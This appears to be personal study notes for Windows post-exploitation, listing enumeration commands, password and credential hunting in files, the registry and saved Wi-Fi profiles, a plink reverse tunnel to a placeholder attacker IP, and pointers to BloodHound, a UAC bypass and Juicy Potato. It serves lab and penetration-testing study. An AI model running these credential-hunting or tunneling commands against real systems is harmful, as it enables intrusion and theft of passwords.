 # Windows Survey and Privilege Escalation

Windows commands, instrumentation, and powershell cmdlets for enumeration

wmic = Windows Managmenet Instrumentatiom Commandline
*Get* commmands are powershell cmdlets

#### System Information:
```
systeminfo
ver 
hostname

# only OS information 
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"

# verbose hotfix (patch) info 
wmic qfe
wmic qfe get Caption,Description,HotFixID,InstalledOn

# disk drives
wmic logicaldisk get caption,description,providername 
```

Enviornment variables:
```
set

# powershell
Get-ChildItem Env: | ft Key,Value
```

View the current user's information:
```
# username
whoami
echo %username%
$env:UserName

# user details
whoami /priv
whoami /all
net user <USERNAME>

# detailed account information and group memberships:
net user <USERNAME> 
```

Enumerate users and groups: 
```
# who else is logged in 
qwinsta

# local users
net user
net user <USERNAME>
Get-LocalUser

# domain users 
net user /domain 
net user <USERNAME> /domain

#search through user directories
tree /f /a C:\Users\<USERNAME>
Get-ChildItem C:\Users\<USERNAME> -Force

# local groups 
net localgroup
Get-LocalGroups

# users in the group
net localgroup <GROUP>
Get-LocalGroupMember <GROUP>

# domain groups 
net groups
net groups /domain

page 627
```
Networking:
```
ipconfig
ipconfig /all
route print
arp -a
type C:\windows\system32\drivers\etc\networks

# display active TCP/UDP connections:
netstat -ano

# connections with executeanle 
netstat -bano
```


Firewall Status:
```

# windows defender
sc query windefend



#what is the new command?
netsh advfirewall show state
netsh advfirewall show config
```


Password hunting:
```
# current directory
findstr /si password *.txt *.ini *.config *.xml

# look through payloadallthethings


# wifi passwords
netsh wlan show profile
netsh wlan show profile <SSID> key=clear | findstr "Key Content"
```


Registry:

```
# windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

#VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

Search the HIVES:
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```


Running proceeses:
```
wmic process list brief
sc queryex type= service 
sc queryex type= service  | finstr "SERVICE NAME"
```

Set up port forwarding for services only available on the local machine:
```
# Port forward using plink
plink.exe -l <ATTACKER_USERNAME> -pw <ATTACKER_PASSOWRD> -R <ATTACKER_PORT>:127.0.0.1:<VICTIM_PORT> <ATTACKER_IP>

#The attacker port should provide access to the service from the attacker port on the attacker machine
```

<br /> 

Scripts: 
* winPEAS.bat
* windows-exploit-suggester.py
* WinEnum.ps1

Tools

## Bloodhound
```
#install
sudo apt install bloodhound 

#start bloodhound
bloodhound

#start neo4
neo4j console

#run sharphound on the target windows machine
./Sharphound.exe

#copy the zip file to your attacking machine, drag and drop into neo4j
```
Reference Sauna HTB machine

### Techniques 

UAC Bypass - https://enigma0x3.net/2017/03/17/fileless-uac-bypass-using-sdclt-exe/
Juicy Potato 
* must tell which CLSID to run or let it choose for you which may work 
** well known list for each OS - https://github.com/ohpe/juicy-potato/tree/master/CLSID

icacls - what files do we have read/write/execute abilites?


### Referenced Checklists
1. https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/
2. Udemy Windows Privilege Escalation for Beginners Course


